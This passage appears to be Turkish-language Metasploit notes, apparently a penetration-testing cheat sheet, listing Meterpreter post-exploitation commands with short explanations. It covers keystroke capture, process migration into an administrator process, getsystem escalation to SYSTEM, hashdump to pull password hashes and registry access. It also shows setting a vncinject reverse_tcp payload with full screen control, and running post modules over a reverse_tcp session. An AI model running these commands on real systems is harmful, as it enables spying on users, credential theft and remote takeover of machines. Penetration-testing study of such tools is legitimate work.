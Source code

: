     M> keyscan_start
   
    M> keyscan_dump
   
    M> keyscan_stop
   
    M> idletime (klavye ve mouse'nin kullanılmadığı süre. bu süreye bakılarak kişinin bilgisayar başında olup olmadığı anlaşılabilir)
  
    M> migrate 3268 (admin kullanıcısının sahip olduğu bir process)
    
    M> getuid (Cevap: Server username: AMBUSH\Administrator)
    
    M> getsystem (sahip olduğumuzdan daha yüksek, elde edebileceğimiz yetkileri ele geçirmeye çalışır)
   
    M> getuid (Cevap: Server username: NT AUTHORITY\SYSTEM (a.k.a root))
   
    M> hashdump (Gerekenler: sistem yetkisi. Sistemdeki parola hashtag'lerini elde etmemizi sağlar)
    
    M> reg (kayıt dosyalarına erişim ve müdahale etme imkanı tanır.)
   
    M> exit
    
  **- vncinject payload'ı:**  
    
    ~~> set PAYLOAD windows/vncinject/reverse_tcp
   
    ~~> show options 
   
    ~~> set ViewOnly false (false değeri ekranı kontrol edebilme yetkisi verir, true değeri sadece izleme modunda açar)
    
    ~~> exploit
    
    E> (Hedefin ekranına girer ve ekranı kontrol edebilir)

## Post-Exploitation:

**- Uygulama:**

    ~~> set PAYLOAD windows/meterpreter/reverse_tcp
    
    ~~> exploit
    
    M> background

    ~~> show post (kullanabileceğimiz post-exploitation'ları görüntüler)

    ~~> use post/windows/gather/checkvm

    P~> show options

    P~> sessions

    P~> set SESSION 10

    P~> exploit

    P~> search virtualbox

    P~> sessions -i 10

    M> run checkvm (run: post-exploitation modüllerini meterpreter içerisinde kullanmamızı sağlar)
